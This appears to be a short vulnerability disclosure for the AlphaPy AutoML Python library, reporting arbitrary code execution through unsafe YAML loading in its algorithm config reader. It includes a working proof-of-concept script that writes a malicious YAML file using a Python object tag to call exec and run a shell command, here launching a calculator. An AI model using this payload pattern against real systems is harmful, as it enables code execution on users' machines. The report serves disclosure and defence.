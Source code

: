 # Description

`AlphaPy` Automated Machine Learning [AutoML] with Python, scikit-learn, Keras, XGBoost, LightGBM, and CatBoost . It is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip install alphapy
```

### Run exploit.py
```
import os
#os.system('pip3 install alphapy')
from alphapy import estimators
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('algos.yml','w+').write(exploit)
estimators.get_algos_config('.')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
